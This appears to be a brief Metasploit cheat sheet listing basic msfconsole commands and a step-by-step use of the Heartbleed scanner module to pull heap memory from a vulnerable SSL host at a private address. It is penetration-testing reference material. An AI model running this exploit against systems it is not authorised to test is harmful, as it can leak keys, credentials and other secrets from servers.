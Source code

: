 # [Metasploit](https://www.metasploit.com/)

Metasploit is an exploit development and execution tool. It can also be used to carry out penetration testing tasks such as port scans, service identiofication and post exploitation tasks.

## General commands

```
msfconsole
help
show [something] // (i.e, show payloads, show options)
use [something]
set [option] [value]
exploit
```

## Exploits

### Heartbleed

Get data from the heap memory of a vulnerable machine (accepting and processing new SSL connections). Data depends largely on the timing of when the exploit is performed. Not getting something highly valuable does not equate to a failed exploit.

```
sudo msfdb start
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
# list module options
show options
# set options
set VERBOSE true
set RHOSTS 10.0.0.101
run
```

